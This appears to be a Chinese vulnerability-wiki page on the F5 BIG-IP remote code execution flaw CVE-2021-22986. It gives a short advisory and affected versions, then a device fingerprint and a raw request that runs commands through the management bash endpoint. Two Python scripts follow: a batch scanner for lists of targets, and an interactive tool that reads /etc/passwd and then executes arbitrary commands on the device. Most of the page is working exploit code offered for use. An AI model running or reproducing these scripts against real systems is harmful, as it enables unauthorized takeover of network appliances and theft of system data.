




F5 BIG-IP 远程代码执行漏洞 CVE-2021-22986¶
漏洞描述¶
F5 BIG-IP 是美国 F5 公司的一款集成了网络流量管理、应用程序安全管理、负载均衡等功能的应用交付平台。
近日，F5发布了F5 BIG-IQ/F5 BIG-IP 代码执行，代码执行的风险声明，F5安全公告更新了BIG-IP，BIG-IQ中的多个严重漏洞。建议广大用户及时将f5 big-iq,f5 big-ip升级到最新版本，避免遭到攻击。
漏洞影响¶
F5 BIG-IP 16.x: 16.1.0.3
F5 BIG-IP 15.x: 15.1.0.4
F5 BIG-IP 14.x: 14.1.2.6
F5 BIG-IP 13.x: 13.1.3.4
F5 BIG-IP 12.x: 12.1.5.2
F5 BIG-IP 11.x: 11.6.5.2
网络测绘¶
icon_hash="-335242539"
漏洞复现¶
访问登录页面如下

发送请求包
POST /mgmt/tm/util/bash HTTP/1.1
Host: xxx.xxx.xxx.xxx:8443
Connection: close
Content-Length: 41
Cache-Control: max-age=0
Authorization: Basic YWRtaW46QVNhc1M=
X-F5-Auth-Token:
Upgrade-Insecure-Requests: 1
Content-Type: application/json
{"command":"run","utilCmdArgs":"-c id"}

成功执行命令 id
漏洞POC¶
批量测试
import requests
import sys
import random
import re
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning
def title():
print('+------------------------------------------')
print('+ \033[34mPOC_Des: http://wiki.peiqi.tech \033[0m')
print('+ \033[34mGithub : https://github.com/PeiQi0 \033[0m')
print('+ \033[34m公众号 : PeiQi文库 \033[0m')
print('+ \033[34mVersion: F5 BIG-IP \033[0m')
print('+ \033[36m使用格式: python3 poc.py \033[0m')
print('+ \033[36mFile >>> ip.txt \033[0m')
print('+------------------------------------------')
def POC_1(target_url):
vuln_url = target_url + "/mgmt/tm/util/bash"
headers = {
"Authorization": "Basic YWRtaW46QVNhc1M=",
"X-F5-Auth-Token": "",
"Content-Type": "application/json"
}
data = '{"command":"run","utilCmdArgs":"-c id"}'
try:
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=2)
if "commandResult" in response.text and response.status_code == 200:
print("\033[32m[o] 目标 {}存在漏洞,响应为:{} \033[0m".format(target_url, json.loads(response.text)["commandResult"]))
else:
print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
except Exception as e:
print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))
def Scan(file_name):
with open(file_name, "r", encoding='utf8') as scan_url:
for url in scan_url:
if url[:4] != "http":
url = "https://" + url
url = url.strip('\n')
try:
POC_1(url)
except Exception as e:
print("\033[31m[x] 请求报错 \033[0m".format(e))
continue
if __name__ == '__main__':
title()
file_name = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))
Scan(file_name)

命令执行
import requests
import sys
import random
import re
import base64
import time
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning
def title():
print('+------------------------------------------')
print('+ \033[34mPOC_Des: http://wiki.peiqi.tech \033[0m')
print('+ \033[34mGithub : https://github.com/PeiQi0 \033[0m')
print('+ \033[34m公众号 : PeiQi文库 \033[0m')
print('+ \033[34mVersion: F5 BIG-IP \033[0m')
print('+ \033[36m使用格式: python3 poc.py \033[0m')
print('+ \033[36mUrl >>> http://xxx.xxx.xxx.xxx \033[0m')
print('+------------------------------------------')
def POC_1(target_url):
vuln_url = target_url + "/mgmt/tm/util/bash"
headers = {
"Authorization": "Basic YWRtaW46QVNhc1M=",
"X-F5-Auth-Token": "",
"Content-Type": "application/json"
}
data = '''{"command":"run","utilCmdArgs":"-c 'cat /etc/passwd'"}'''
try:
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
if 'root' in response.text and response.status_code == 200:
print("\033[32m[o] 目标 {}存在漏洞,响应为:{} \033[0m".format(target_url, json.loads(response.text)["commandResult"]))
while True:
Cmd = str(input("\033[35mCmd >>> \033[0m"))
POC_2(target_url, Cmd)
else:
print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
except Exception as e:
print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url), e)
def POC_2(target_url, Cmd):
vuln_url = target_url + "/mgmt/tm/util/bash"
headers = {
"Authorization": "Basic YWRtaW46QVNhc1M=",
"X-F5-Auth-Token": "",
"Content-Type": "application/json"
}
Cmd = "'" + Cmd + "'"
data = '{"command":"run","utilCmdArgs":"-c %s"}' % Cmd
try:
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
print("\033[32m{} \033[0m".format(json.loads(response.text)["commandResult"]))
except Exception as e:
print("\033[31m[x] 命令执行失败 \033[0m".format(target_url), e)
if __name__ == '__main__':
title()
target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
POC_1(target_url)
